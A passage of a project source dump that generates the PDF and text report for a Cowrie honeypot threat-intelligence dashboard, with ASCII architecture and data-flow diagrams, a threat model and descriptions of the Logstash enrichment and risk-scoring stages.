        t.setStyle(TableStyle([("BACKGROUND", (0, 0), (-1, 0), NAVY), ("VALIGN", (0, 0), (-1, -1), "TOP"),
                               ("ROWBACKGROUNDS", (0, 1), (-1, -1), [colors.white, colors.HexColor("#f2f6f8")]),
                               ("GRID", (0, 0), (-1, -1), 0.3, colors.HexColor("#c9d3da")),
                               ("TOPPADDING", (0, 0), (-1, -1), 3), ("BOTTOMPADDING", (0, 0), (-1, -1), 3)]))
        return [t, Spacer(1, 7)]

    def codeblock(lines, label=None):
        wrapped = []
        for ln in lines:
            ln = ln.replace("\t", "    ")
            while len(ln) > 120:
                cut = ln.rfind(" ", 60, 120)
                cut = cut if cut > 0 else 120
                wrapped.append(ln[:cut])
                ln = "      " + ln[cut:].lstrip()
            wrapped.append(ln)
        flow = []
        if label:
            flow.append(Paragraph(f"<b>{label}</b>", cap))
        flow.append(Preformatted("\n".join(wrapped), code))
        return flow

    # ---------- figures -----------------------------------------------------------------
    def hx(c):
        return c if isinstance(c, colors.Color) else colors.HexColor(c)

    def box(d, x, y, w, h, text, fill="#ffffff", stroke="#14283c", size=7.6, bold=False, lines=None):
        d.add(Rect(x, y, w, h, fillColor=hx(fill), strokeColor=hx(stroke), strokeWidth=0.9, rx=3, ry=3))
        rows = lines or [text]
        top = y + h / 2 + (len(rows) - 1) * 4.6
        for i, r in enumerate(rows):
            d.add(String(x + w / 2, top - i * 9.2 - 2.7, r, fontName="Helvetica-Bold" if (bold and i == 0) else "Helvetica",
                         fontSize=size, textAnchor="middle", fillColor=colors.HexColor("#14283c")))

    def arrow(d, x1, y1, x2, y2, both=False, color="#14283c"):
        import math
        col = colors.HexColor(color)
        d.add(Line(x1, y1, x2, y2, strokeColor=col, strokeWidth=1.1))

        def head(xa, ya, xb, yb):
            ang = math.atan2(yb - ya, xb - xa)
            p = [xb, yb, xb - 6 * math.cos(ang - 0.4), yb - 6 * math.sin(ang - 0.4), xb - 6 * math.cos(ang + 0.4), yb - 6 * math.sin(ang + 0.4)]
            d.add(Polygon(p, fillColor=col, strokeColor=col, strokeWidth=0.5))
        head(x1, y1, x2, y2)
        if both:
            head(x2, y2, x1, y1)

    def label(d, x, y, text, size=7, anchor="middle", color="#5b6670"):
        d.add(String(x, y, text, fontName="Helvetica-Oblique", fontSize=size, textAnchor=anchor, fillColor=colors.HexColor(color)))

    def fig_arch():
        d = Drawing(500, 440)
        box(d, 85, 408, 190, 26, "", "#eceff1", lines=["Internet: attackers, scanners, botnets"], bold=True)
        arrow(d, 180, 408, 180, 378)
        label(d, 186, 389, "SSH :22 -> :2222   Telnet :23 -> :2223", anchor="start")
        d.add(Rect(20, 318, 320, 60, fillColor=colors.HexColor("#fdecea"), strokeColor=RED, strokeWidth=1.1, rx=4, ry=4))
        d.add(String(28, 366, "ZONE 1   honeypot_net  (isolated network - nothing else joins)", fontName="Helvetica-Bold", fontSize=7.4, fillColor=RED))
        box(d, 36, 324, 288, 30, "", "#ffffff", RED, lines=["COWRIE honeypot - fake SSH/Telnet shell and file system", "cap_drop ALL, no-new-privileges, 512 MB, 256 PIDs, no host mounts"], bold=True, size=7.2)
        arrow(d, 180, 318, 180, 300)
        box(d, 85, 276, 190, 24, "", "#fff8e1", "#b58900", lines=["volume cowrie-logs (cowrie.json)", "mounted READ-ONLY into Filebeat"], size=7)
        arrow(d, 180, 276, 180, 258)
        d.add(Rect(20, 8, 470, 250, fillColor=colors.HexColor("#e8f1fb"), strokeColor=colors.HexColor("#1565c0"), strokeWidth=1.1, rx=4, ry=4))
        d.add(String(28, 246, "ZONE 2   elk_net  (private; only 127.0.0.1 ports are published)", fontName="Helvetica-Bold", fontSize=7.4, fillColor=colors.HexColor("#1565c0")))
        box(d, 36, 196, 100, 34, "", "#ffffff", lines=["FILEBEAT", "ndjson -> [cw]"], bold=True)
        arrow(d, 136, 213, 196, 213)
        label(d, 166, 217, "tcp 5044", size=6.5)
        box(d, 196, 150, 160, 80, "", "#ffffff", lines=["LOGSTASH", "1 parse   2 ECS + ATT&CK", "3 GeoIP + ASN (GeoLite2)", "4 threat intel: cache>quota>HTTP", "5 risk score + verdict"], bold=True, size=7)
        box(d, 372, 318, 118, 60, "", "#eceff1", "#5b6670", lines=["External APIs", "AbuseIPDB", "AlienVault OTX", "VirusTotal"], bold=True, size=7)
        arrow(d, 330, 230, 410, 318, both=True, color="#5b6670")
        label(d, 420, 298, "HTTPS, cached,", size=6.5)
        label(d, 420, 289, "quota-gated", size=6.5)
        arrow(d, 276, 150, 276, 124)
        box(d, 196, 92, 160, 32, "", "#ffffff", lines=["ELASTICSEARCH", "honeypot-cowrie-YYYY.MM.dd, ILM"], bold=True, size=7.2)
        for tx, name, l1, l2 in ((92, "KIBANA", "23 panels, Discover", "127.0.0.1:5601"), (270, "ELASTALERT 2", "4 alert rules", "near real time"),
                                 (420, "REPORTER (Python)", "daily PDF/HTML/MD", "IOC CSV + blocklist")):
            box(d, tx - 62, 22, 124, 40, "", "#ffffff", lines=[name, l1, l2], bold=True, size=7)
            arrow(d, 276, 92, tx, 62)
        return d

    def fig_ti():
        d = Drawing(500, 360)
        box(d, 175, 322, 150, 28, "", "#e8f1fb", lines=["source.ip  ->  TI.classify"], bold=True)
        box(d, 10, 262, 150, 36, "", "#eceff1", "#5b6670", lines=["private / reserved IP", "mode skip: not_applicable"], size=7)
        box(d, 340, 262, 150, 36, "", "#fff8e1", "#b58900", lines=["simulated traffic", "mode demo: synthetic, offline"], size=7)
        arrow(d, 190, 322, 100, 298)
        arrow(d, 310, 322, 400, 298)
        box(d, 175, 262, 150, 36, "", "#ffffff", lines=["public IP", "TI.cache_get (TTL 24 h)"], bold=True, size=7.4)
        arrow(d, 250, 322, 250, 298)
        box(d, 340, 196, 150, 36, "", "#e8f5e9", "#2e7d32", lines=["HIT: copy stored ti.*", "no API call"], size=7.4)
        arrow(d, 325, 270, 400, 232)
        box(d, 175, 196, 150, 36, "", "#ffffff", lines=["MISS: quota gate", "per provider"], bold=True, size=7.4)
        arrow(d, 250, 262, 250, 232)
        for x, name, l1, l2 in ((10, "AbuseIPDB", "key set? daily budget", "score 0-100, reports"), (175, "AlienVault OTX", "key set? daily + per-minute", "pulses, tags, families"),
                                (340, "VirusTotal", "AbuseIPDB score >= 25?", "4/min, 450/day")):
            box(d, x, 120, 150, 46, "", "#ffffff", lines=[name, l1, l2], bold=True, size=7)
            arrow(d, 250, 196, x + 75, 166)
        box(d, 175, 40, 150, 46, "", "#e8f1fb", lines=["TI.merge", "score = max of signals", "verdict + benign override", "store in cache"], bold=True, size=7)
        for x in (85, 250, 415):
            arrow(d, x, 120, 250, 86)
        label(d, 250, 14, "failures are cached 10 min as 'unknown' - events are never lost", size=7.4)
        return d

    FIGS = {"arch": (fig_arch, "Figure: two-zone architecture and data flow"), "ti_flow": (fig_ti, "Figure: threat-intelligence step inside Logstash")}

    # ---------- document ----------------------------------------------------------------
    class Doc(BaseDocTemplate):
        def __init__(self, path):
            super().__init__(str(path), pagesize=A4, leftMargin=18 * mm, rightMargin=18 * mm, topMargin=18 * mm, bottomMargin=17 * mm,
                             title="Threat Intelligence Dashboard - Project Report", author="Threat Intelligence Dashboard project")
            fr = Frame(self.leftMargin, self.bottomMargin, self.width, self.height, id="f")
            self.addPageTemplates([PageTemplate(id="p", frames=[fr], onPage=self._footer)])

        @staticmethod
        def _footer(c, d):
            c.saveState()
            c.setFont("Helvetica", 7.5)
            c.setFillColor(GREY)
            c.drawString(18 * mm, 10 * mm, "Threat Intelligence Dashboard - Project Report")
            c.drawRightString(A4[0] - 18 * mm, 10 * mm, f"Page {d.page}")
            c.restoreState()

        def afterFlowable(self, fl):
            if isinstance(fl, Paragraph) and fl.style.name in ("H1", "H2"):
                key = f"s{self.seq.nextf('toc')}"
                self.canv.bookmarkPage(key)
                self.notify("TOCEntry", (0 if fl.style.name == "H1" else 1, fl.getPlainText(), self.page, key))

    story = []
    # title page
    ttl = ParagraphStyle("ttl", fontName="Helvetica-Bold", fontSize=30, leading=34, textColor=NAVY, spaceAfter=8)
    sub = ParagraphStyle("sub", fontName="Helvetica", fontSize=12.5, leading=17, textColor=TEAL, spaceAfter=18)
    story += [Spacer(1, 55 * mm), Paragraph("Threat Intelligence Dashboard", ttl), Paragraph("Project report: step-by-step analysis, design and validation", sub),
              Paragraph(inline("Honeypot (Cowrie) -> Filebeat -> Logstash (GeoIP, AbuseIPDB, AlienVault OTX, VirusTotal) -> "
                               "Elasticsearch -> Kibana, ElastAlert 2 and automated reporting"), body), Spacer(1, 8 * mm)]
    meta = [["Version / date", f"1.0 / {C.DATE}"], ["Platform", "Windows 10 22H2 / Windows 11 via Docker Desktop (WSL 2); Linux host option"],
            ["Automated checks", f"{N_PY} Python tests, {N_RB} Ruby tests, compose schema validation"],
            ["Data in examples", "Simulated (labelled). No real attacker data is shown."],
            ["Companion files", "HOW_TO_RUN.txt, GITHUB_REPORT.txt (complete code and ASCII diagrams)"]]
    story += table(["", ""], meta, [1.3, 4.7], fs=8.6)[:1]
    story += [Spacer(1, 10 * mm), PageBreak()]
    toc = TableOfContents()
    toc.levelStyles = [ParagraphStyle("t1", fontName="Helvetica-Bold", fontSize=10, leading=15, leftIndent=0),
                       ParagraphStyle("t2", fontName="Helvetica", fontSize=8.5, leading=12, leftIndent=14, textColor=GREY)]
    story += [Paragraph("Contents", h1), toc, PageBreak()]

    pages = []
    try:
        tmp = Path(tempfile.mkdtemp())
        subprocess.run(["pdftoppm", "-r", "85", "-png", "-f", "1", "-l", "2", str(ROOT / "docs/sample_report/threat_report_SAMPLE.pdf"), str(tmp / "s")],
                       check=True, capture_output=True)
        pages = sorted(tmp.glob("s-*.png"))
    except (OSError, subprocess.CalledProcessError):
        pages = []

    for sec in C.SECTIONS:
        story.append(Paragraph(inline(sec["title"]), h1))
        for blk in sec["blocks"]:
            k = blk[0]
            if k == "p":
                txt = blk[1]
                story.append(P(txt) if not (txt.startswith("**") and txt.endswith("**") and len(txt) < 80) else Paragraph(inline(txt.strip("*")), h2))
            elif k == "bullets":
                story += [Paragraph(inline(b), bullet, bulletText="-") for b in blk[1]] + [Spacer(1, 3)]
            elif k == "table":
                story += table(blk[1], blk[2], blk[3])
            elif k == "note":
                t = Table([[Paragraph(inline(blk[1]), notestyle)]], colWidths=[A4[0] - 36 * mm])
                t.setStyle(TableStyle([("BACKGROUND", (0, 0), (-1, -1), colors.HexColor("#fff4d6")), ("BOX", (0, 0), (-1, -1), 0.6, colors.HexColor("#d6a300")),
                                       ("LEFTPADDING", (0, 0), (-1, -1), 8), ("TOPPADDING", (0, 0), (-1, -1), 6), ("BOTTOMPADDING", (0, 0), (-1, -1), 6)]))
                story += [t, Spacer(1, 7)]
            elif k == "pre":
                story += codeblock(subst(blk[1]).splitlines())
            elif k == "diagram":
                if blk[1] in FIGS:
                    fn, caption = FIGS[blk[1]]
                    story += [KeepTogether([fn(), Paragraph(caption, cap)])]
                else:  # dataflow: ASCII art in a code block is the clearest way to show field changes
                    story += codeblock(C.ASCII[blk[1]].splitlines(), "Figure: one event, end to end")
            elif k == "pre_txt_only":
                pass
            elif k == "code":
                a, b = blk[2]
                lines = excerpt(blk[1], blk[2])
                span = f"lines {a}-{b}" if not isinstance(a, str) else "excerpt"
                story += codeblock(lines, f"{blk[1]}  ({span}; the complete file is in GITHUB_REPORT.txt)")
            elif k == "panel_table":
                story += table(["Panel", "Type", "Fields / filter", "Decision it supports"], panel_rows(), [2.1, 0.8, 3.0, 2.3], fs=7)
            elif k == "kql_table":
                story += table(["Name", "KQL query"], kql_rows(), [1.7, 4.3], fs=7.6)
            elif k == "dsl_blocks":
                for name, body_text in dsl_files():
                    story += codeblock(body_text.splitlines(), f"kibana/dsl/{name}")
            elif k == "sample_page" and pages:
                imgs = [Image(str(p), width=82 * mm, height=82 * mm * 841.89 / 595.28) for p in pages[:2]]
                t = Table([imgs], colWidths=[88 * mm] * len(imgs))
                t.setStyle(TableStyle([("BOX", (0, 0), (-1, -1), 0.3, colors.HexColor("#c9d3da")), ("ALIGN", (0, 0), (-1, -1), "CENTER")]))
                story += [t, Paragraph("Pages 1-2 of the generated report (sample data from the test fixture, labelled as synthetic).", cap)]
        story.append(PageBreak())

    # appendix
    story.append(Paragraph("Appendix - file inventory", h1))
    inv = []
    for p in sorted(ROOT.rglob("*")):
        rel = p.relative_to(ROOT).as_posix()
        if p.is_file() and "__pycache__" not in p.parts and p.suffix not in {".pyc", ".pdf"} and not rel.startswith("docs/sample_report") and p.name != ".gitkeep":
            n = len(p.read_text(encoding="utf-8", errors="ignore").splitlines())
            inv.append([rel, str(n)])
    story += table(["File", "Lines"], inv, [5, 1], fs=7.2)

    doc = Doc(PDF_OUT)
    doc.multiBuild(story)
    return len(pages)

def main():
    for sec in C.SECTIONS:
        check_ascii(json.dumps(sec), f"section {sec['id']}")
    n_lines, n_files = render_txt()
    print(f"[docs] GITHUB_REPORT.txt: {n_lines:,} lines, {n_files} source files embedded")
    n_pages = render_pdf()
    print(f"[docs] {PDF_OUT.name} written ({PDF_OUT.stat().st_size // 1024} KB, sample pictures: {n_pages})")
    print(f"[docs] measured: {N_PY} Python tests, {N_RB} Ruby tests, {N_VIS} visualisations")

if __name__ == "__main__":
    main()
------------------------------------------------------------------------------
END OF FILE: docs/build_docs.py
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: docs/report_content.py   (506 lines)
------------------------------------------------------------------------------
"""
Shared content for the two project documents (ASCII only):
  * GITHUB_REPORT.txt                                  (docs/build_docs.py -> render_txt)
  * Threat_Intelligence_Dashboard_Project_Report.pdf   (docs/build_docs.py -> render_pdf)

Block types
  ("p", text)                    paragraph; **bold** and `code` markers allowed
  ("bullets", [text, ...])
  ("table", [header...], [[cell...], ...], [relative widths])
  ("code", path, (first, last))  real file from the repo; TXT embeds the WHOLE file, the
                                 PDF shows the excerpt lines first..last (1-based)
  ("pre", text)                  literal preformatted text (queries, command lines)
  ("diagram", name)              ASCII art in TXT, drawn figure in PDF
  ("note", text)                 highlighted note
  ("sample_page",)               PDF only: picture of the generated sample report
"""

TITLE = "Threat Intelligence Dashboard"
SUBTITLE = "Honeypot-driven threat intelligence: Cowrie -> Filebeat -> Logstash -> Elasticsearch -> Kibana"
DATE = "2026-11-13"

# --------------------------------------------------------------------------------------
# ASCII diagrams (TXT).  The PDF draws its own versions of "arch" and "pipeline".
# --------------------------------------------------------------------------------------
ASCII = {}

ASCII["arch"] = r"""
                    INTERNET  (attackers, scanners, botnets)
                                      |
                     SSH :22 -> host :2222   Telnet :23 -> host :2223
                                      |
 +------------------------------------v------------------------------------+
 | ZONE 1   honeypot_net   (isolated Docker network - nothing else joins)   |
 |                                                                          |
 |   +------------------------------------------------------------------+   |
 |   | COWRIE honeypot  (fake SSH/Telnet shell + fake file system)      |   |
 |   | cap_drop=ALL  no-new-privileges  512 MB  256 PIDs  no host mounts|   |
 |   +----------------------------------+-------------------------------+   |
 +--------------------------------------|-----------------------------------+
                                        |  writes cowrie.json (one JSON/line)
                        [ named volume  cowrie-logs ]
                        mounted READ-ONLY into Filebeat - no network path
 +--------------------------------------|-----------------------------------+
 | ZONE 2   elk_net   (private; only 127.0.0.1 ports are published)        |
 |                                      v                                   |
 |   FILEBEAT --- tcp 5044 ---> LOGSTASH                                    |
 |                               1 parse  (NDJSON -> [cw])                  |
 |                               2 normalise to ECS names, ATT&CK tags      |
 |                               3 GeoIP + ASN  (MaxMind GeoLite2)          |
 |                               4 threat intel:  cache -> quota gate ->    |
 |                                  HTTPS --------> AbuseIPDB / OTX /       |
 |                                  merge  <------- VirusTotal              |
 |                               5 risk score + verdict                     |
 |                                      |                                   |
 |                                      v                                   |
 |                         ELASTICSEARCH  honeypot-cowrie-YYYY.MM.dd        |
 |                         (security on, 3 least-privilege users, ILM 30 d) |
 |                          |              |                  |             |
 |                          v              v                  v             |
 |                       KIBANA        ELASTALERT 2       REPORTER          |
 |                    dashboard,      4 alert rules    daily PDF/HTML/MD,   |
 |                    Discover        (near real       IOC CSV, IP blocklist|
 |                    127.0.0.1:5601   time)                                |
 +--------------------------------------------------------------------------+
""".strip("\n")

ASCII["mermaid"] = r"""

""".strip("\n")

ASCII["dataflow"] = r"""
 One event, end to end  (illustrative values)

 [1] ATTACKER           ssh root@honeypot      password: 123456
          |
 [2] COWRIE writes      {"eventid":"cowrie.login.success","src_ip":"203.0.113.45",
          |              "username":"root","password":"123456","session":"a1b2..",
          |              "timestamp":"2026-11-12T08:15:42.118Z","sensor":"srv-db-04"}
          |
 [3] FILEBEAT           ndjson parser: decoded JSON is stored under [cw]
          |              (keeps Cowrie's "input"/"message" away from Beats metadata)
          |
 [4] LOGSTASH           a. drop lines without src_ip; fingerprint -> document _id
          |              b. @timestamp := cw.timestamp
          |              c. rename to ECS-style: source.ip, event.action, cowrie.*
          |              d. MITRE ATT&CK: login.success -> T1078 Valid Accounts
          |              e. GeoIP + ASN  -> source.geo.*, source.as.*
          |              f. TI: classify IP (public? simulated?) -> cache -> quota
          |                    -> AbuseIPDB / OTX / VirusTotal -> merge -> ti.*
          |              g. risk: round(0.6 * severity + 0.4 * ti.score)
          |
 [5] ELASTICSEARCH      index honeypot-cowrie-2026.11.12  (idempotent _id)
          |
          +--> KIBANA      panels refresh every 30 s
          +--> ELASTALERT  rule "login from malicious IP" fires
          +--> REPORTER    07:00 daily: aggregations -> PDF/HTML/MD + IOC CSV

 Resulting document (abridged, ILLUSTRATIVE values):
 {
   "@timestamp": "2026-11-12T08:15:42.118Z",
   "event":  {"action": "cowrie.login.success", "outcome": "success",
              "severity": 60, "risk_score": 74, "risk_level": "high"},
   "source": {"ip": "203.0.113.45", "port": 51522,
              "geo": {"country_name": "Brazil", "location": {"lat": -23.5, "lon": -46.6}},
              "as":  {"number": 64500, "organization": {"name": "Example Telecom SA"}}},
   "cowrie": {"username": "root", "password": "123456", "credential": "root:123456"},
   "threat": {"technique": {"id": "T1078", "name": "Valid Accounts"}},
   "ti":     {"verdict": "malicious", "score": 95, "providers": ["abuseipdb", "otx"],
              "abuseipdb": {"confidence_score": 95, "total_reports": 214},
              "otx": {"pulse_count": 6, "tags": ["ssh-bruteforce", "botnet"]}}
 }
 risk = round(0.6 * 60 + 0.4 * 95) = round(36 + 38) = 74  ->  level "high" (>= 60)
""".strip("\n")

ASCII["ti_flow"] = r"""
 Threat-intelligence step inside Logstash (per event)

   source.ip
      |
      v
   TI.classify ----- private / reserved / loopback ----> mode "skip"  (ti.verdict = not_applicable)
      |
      +------------- simulated traffic --------------> mode "demo"  (deterministic synthetic scores,
      |                                                              labelled provider demo-synthetic,
      |                                                              NOTHING leaves the machine)
      v  public IP
   TI.cache_get --- hit (< 24 h old) ------------------> copy stored ti.* onto the event   [no API call]
      |
      v  miss
   TI.budget('abuse')   key set?  daily budget left?   -> http filter -> AbuseIPDB
   TI.budget('otx')     key set?  daily + per-minute?  -> http filter -> AlienVault OTX
   TI.budget('vt')      key set?  AbuseIPDB score >= 25 (or no AbuseIPDB)?  4/min, 450/day
      |                                               -> http filter -> VirusTotal
      v
   TI.merge ---- parse bodies (Hash or raw JSON string), score = max of signals,
                 verdict, benign-scanner override, store in cache
                 (failures are cached for 10 min as "unknown" - no hammering, no lost events)
""".strip("\n")

# --------------------------------------------------------------------------------------
# Sections
# --------------------------------------------------------------------------------------
SECTIONS = []

def section(sid, title, blocks):
    SECTIONS.append({"id": sid, "title": title, "blocks": blocks})

section("summary", "1. Project summary", [
    ("p", "This project is an end-to-end **Threat Intelligence Dashboard**. A Cowrie honeypot attracts "
          "SSH/Telnet attackers; every login attempt, shell command and malware download is shipped by Filebeat "
          "to Logstash, enriched with GeoIP/ASN data and with reputation data from AbuseIPDB, AlienVault OTX and "
          "VirusTotal, scored for risk, stored in Elasticsearch, shown on a Kibana dashboard, watched by ElastAlert 2 "
          "and summarised every day in an automatically generated PDF/HTML/Markdown report with an IOC export and an "
          "IP blocklist."),
    ("table", ["Item", "Detail"], [
        ["Honeypot", "Cowrie (medium-interaction SSH/Telnet), Docker image cowrie/cowrie"],
        ["Pipeline", "Filebeat 8.15.3 -> Logstash 8.15.3 (ECS-style fields, MITRE ATT&CK tags, GeoLite2, 3 TI APIs)"],
        ["Storage / UI", "Elasticsearch 8.15.3 (security on, ILM retention) + Kibana 8.15.3 (23 panels, 3 saved searches)"],
        ["Automation", "Python 3.12 report generator (elasticsearch client + reportlab), ElastAlert 2.20.0 (4 rules)"],
        ["Packaging", "docker-compose.yml, 10 services; Windows launchers (.bat + PowerShell 5.1); Linux setup.sh"],
        ["Runs on", "Windows 10 22H2 / Windows 11 via Docker Desktop (WSL 2); any other Windows via a Linux host + browser"],
        ["Quality gates", "{TESTS_PY} Python + {TESTS_RB} Ruby automated tests, compose schema validation, end-to-end enrichment run"],
    ], [1.2, 4.8]),
    ("note", "Honesty note. The build environment had no Docker daemon, so the containers were not started together "
             "there; everything that can be verified without containers was (see the Testing section). "
             "The first start.bat on a real PC is the first full end-to-end run."),
])

section("requirements", "2. Step 1 - Requirements and threat model", [
    ("p", "**Goal.** Capture malicious IP addresses and attacker behaviour, enrich them, visualise patterns in near "
          "real time and automate threat-intelligence reporting."),
    ("p", "**Why a honeypot.** A honeypot has no legitimate users, so every interaction is suspicious by definition. "
          "That gives high-fidelity indicators (low false-positive rate) and unique first-party data: the "
          "credentials attackers try, the commands they run and the malware they download."),
    ("p", "**Design requirements derived from the brief**"),
    ("bullets", [
        "Capture: SSH and Telnet attacks with full session detail (Cowrie JSON log).",
        "Enrich: GeoIP (lat/lon, country, ASN) and reputation (abuse score, threat tags, detections).",
        "Visualise: attack origins, top ASNs/IPs, timeline/velocity, ports/protocols, credentials, commands.",
        "Automate: scheduled 24-hour report with top IOCs; alerts on high-severity activity.",
        "Secure: API keys only via environment, honeypot network isolated, least-privilege access, no secrets in files.",
        "Run on Windows: one double-click start, no Python/Ruby/Git needed on the host.",
    ]),
    ("p", "**Threat model for the platform itself** (the honeypot is intentionally attackable, so the rest must be safe "
          "if it is compromised)"),
    ("table", ["Threat", "Mitigation in this project"], [
        ["Attacker escapes the honeypot container", "cap_drop ALL, no-new-privileges, memory/PID/CPU limits, no host folder mounts"],
        ["Attacker pivots to Elasticsearch / Kibana", "Honeypot sits alone on honeypot_net; ELK is on a different network; logs cross only through a read-only volume"],
        ["Log injection (attacker-controlled strings reach the dashboard/report)", "Fields stored as keywords/text, never executed; HTML and PDF renderers escape all values (tested)"],
        ["API keys leak", "Keys only in .env / container environment; never in config files; .env is git-ignored; test scans for hard-coded secrets"],
        ["Free-tier API quotas exhausted or abused", "24 h cache + hard daily and per-minute budgets per provider, enforced in Logstash"],
        ["Real attackers' data sent to third parties", "Only public IPs and file HASHES are looked up; simulated and private IPs never leave; the malware file itself is never uploaded"],
        ["Services exposed to the internet", "Elasticsearch and Kibana bind 127.0.0.1 only; Logstash publishes no port"],
    ], [2.2, 3.8]),
])

section("architecture", "3. Module 1 - System architecture and data flow", [
    ("p", "The system has two network zones. Zone 1 contains only the honeypot. Zone 2 contains the analytics stack. "
          "The only bridge is a Docker volume holding the honeypot's JSON log, mounted read-only into Filebeat."),
    ("diagram", "arch"),
    ("p", "**Mermaid version** (renders automatically on GitHub when pasted into a Markdown file):"),
    ("pre_txt_only", "mermaid"),
    ("p", "**Event lifecycle.** The next diagram follows a single login event through every stage and shows how the "
          "document changes."),
    ("diagram", "dataflow"),
])

section("honeypot", "4. Module 2 - Honeypot and log collection", [
    ("p", "**Step 2.1 - Deploy Cowrie.** The container publishes two unprivileged host ports (2222 SSH, 2223 Telnet; "
          "forward 22/23 to them on a VPS). Only named volumes are mounted: one for logs, one for captured malware "
          "samples."),
    ("code", "docker-compose.yml", (44, 66)),
    ("p", "**Step 2.2 - Ship logs with Filebeat.** Filebeat tails the Cowrie JSON file (and the simulator's file), "
          "decodes each line as JSON **into a sub-object `[cw]`** and sends it to Logstash. Decoding into a sub-object "
          "is deliberate: Cowrie emits keys named `input` and `message`, which would collide with Filebeat's own "
          "metadata if decoded at the event root."),
    ("code", "filebeat/filebeat.yml", (1, 29)),
    ("p", "Windows detail: bind-mounted config files show permissive modes inside the container, so Filebeat is started "
          "with `--strict.perms=false`; all state lives in named volumes (no Windows path or permission problems)."),
])

section("enrichment", "5. Module 3 - Enrichment pipeline (Logstash and threat feeds)", [
    ("p", "The pipeline (`logstash/pipeline/logstash.conf`) is a single file with seven numbered stages; the "
          "enrichment helpers live in `logstash/ruby/ti_lib.rb` so they can be unit-tested outside Logstash."),
    ("table", ["Stage", "What happens", "Why"], [
        ["1 Parse", "drop lines without src_ip; fingerprint -> deterministic document _id", "Re-sent lines overwrite instead of duplicating"],
        ["2 Normalise", "rename Cowrie keys to ECS-style names; build cowrie.credential; outcome", "Consistent fields for dashboards and queries"],
        ["3 ATT&CK", "T1110, T1078, T1059.004, T1105, T1496, T1098.004, T1053.003, T1082, T1090", "Behaviour context for analysts and reports"],
        ["4 GeoIP / ASN", "two geoip filters (City, ASN) -> source.geo.*, source.as.*", "Map, country and ASN panels; block-by-network decisions"],
        ["5 Threat intel", "classify -> cache -> quota gate -> HTTP -> merge", "Reputation without exhausting free API tiers"],
        ["6 Risk", "severity table + TI score -> event.risk_score / risk_level", "One number to sort, alert and report on"],
        ["7 Clean-up", "remove transport noise (cw, agent, ecs, input, host)", "Smaller, cleaner documents"],
    ], [0.9, 3.0, 2.1]),
    ("diagram", "ti_flow"),
    ("p", "**Step 3.1 - GeoIP and ASN.** Logstash's geoip filter uses MaxMind GeoLite2 databases that Logstash downloads "
          "and refreshes itself, so no licence key is needed. The City database gives latitude/longitude, country and "
          "city; the ASN database gives the autonomous system number and organisation. Private addresses are skipped."),
    ("p", "**Step 3.2 - Threat feeds through the `http` filter.** AbuseIPDB (abuse confidence 0-100, report count, usage "
          "type, ISP, Tor flag), AlienVault OTX (pulse count, threat tags, malware families) and VirusTotal "
          "(engine detections for the IP and for malware SHA-256 hashes). Keys are read from environment variables; a "
          "missing key simply disables that provider."),
    ("code", "logstash/pipeline/logstash.conf", ("# 5. Threat-intelligence enrichment", "# 6. Severity")),
    ("p", "**Step 3.3 - Scoring.** Each Cowrie event type has a base severity; the threat-intel score is the strongest "
          "signal from any provider; the two are blended."),
    ("table", ["Cowrie event", "Severity", "Meaning"], [
        ["session.connect / client.version / client.kex", "10", "Scanning, fingerprinting"],
        ["login.failed", "25", "Password guessing"],
        ["login.success", "60", "Honeypot credentials accepted"],
        ["command.input", "70", "Interactive shell activity"],
        ["direct-tcpip.request", "75", "Using the host as a proxy"],
        ["session.file_download / file_upload", "90", "Malware / tool transfer"],
    ], [3.0, 0.8, 2.2]),
    ("pre", "ti.score        = max(AbuseIPDB confidence, 10 x VT detections, 10 x OTX pulses)   (each capped at 100)\n"
            "event.risk_score = round(0.6 x severity + 0.4 x ti.score)      benign sources are capped at 20\n"
            "event.risk_level = critical >= 80 | high >= 60 | medium >= 35 | low\n"
            "ti.verdict       = benign (whitelisted / CDN / search-engine) | malicious >= 75 | suspicious >= 25 | clean"),
    ("p", "**Step 3.4 - False-positive reduction.** Whitelisted IPs and CDN/search-engine ranges are marked `benign`, "
          "their risk is capped at 20 and they are excluded from the generated blocklist. Failed lookups degrade to "
          "`unknown` and are cached for 10 minutes; events are never dropped because an API was down."),
    ("p", "**Step 3.5 - Demo mode.** Simulated traffic (tools/simulate_attacks.py) is tagged `simulated`, never sent to "
          "any API, and receives deterministic synthetic scores (provider `demo-synthetic`) so the dashboard can be "
          "demonstrated without keys. Synthetic IPs are random addresses, malware URLs use the reserved "
          "198.51.100.0/24 range and `.invalid` domains, and every report prints a notice when demo data is present."),
    ("note", "Bug found by checking the documentation. Elastic's plugin reference shows the `http` filter has no "
             "`tag_on_request_failure` / `tag_on_json_failure` options, yet the first version of the pipeline used both. "
             "Logstash refuses to start a pipeline with unknown settings. They were removed, the Ruby code now accepts "
             "response bodies as either a parsed Hash or a raw JSON string, and a regression test checks every plugin "
             "option in logstash.conf against an allow-list (and fails when the old bug is re-introduced)."),
])

section("storage", "6. Storage, retention and access control", [
    ("p", "The index template (`elasticsearch/index-template.json`) maps `source.ip` as `ip`, "
          "`source.geo.location` as `geo_point`, and every analysed string as `keyword`, so aggregations are cheap and "
          "exact. `cowrie.input` is also kept as full text for searching. Indices are daily "
          "(`honeypot-cowrie-YYYY.MM.dd`) with an ILM policy that deletes them after RETENTION_DAYS (default 30)."),
    ("table", ["User", "Role privileges", "Used by"], [
        ["ti_logstash", "create_index, create, index, auto_configure on honeypot-*", "Logstash (write only)"],
        ["ti_reader", "read, view_index_metadata on honeypot-*", "Report generator"],
        ["ti_elastalert", "read on honeypot-*, all on elastalert*", "ElastAlert 2"],
        ["kibana_system", "built-in", "Kibana"],
        ["elastic", "superuser (password only in .env)", "Humans and the one-shot init jobs"],
    ], [1.3, 3.2, 1.5]),
    ("p", "Passwords and Kibana encryption keys are generated at first start (random, 24-40 characters) and never "
          "committed. Inside the private Docker network Elasticsearch speaks plain HTTP; its published port is "
          "bound to localhost. For a multi-host deployment enable TLS (documented as a next step)."),
])

section("kibana", "7. Module 4 - Kibana dashboard and visualisation design", [
    ("p", "The dashboard **Threat Intelligence - SOC Overview** is created automatically by the `kibana-init` job from "
          "`tools/kibana_objects.py` (data view `Honeypot - Cowrie`, {N_VIS} visualisations, 3 saved searches). "
          "Every panel answers a decision: block, hunt, harden or escalate."),
    ("panel_table",),
    ("p", "**Attack-origin map (Coordinate Map).** Kibana map objects change between versions, so the map layer is "
          "created by hand in under a minute: Maps > Create map > Add layer > Documents > data view "
          "`Honeypot - Cowrie` > geospatial field `source.geo.location`; colour and size by `event.risk_score`; save as "
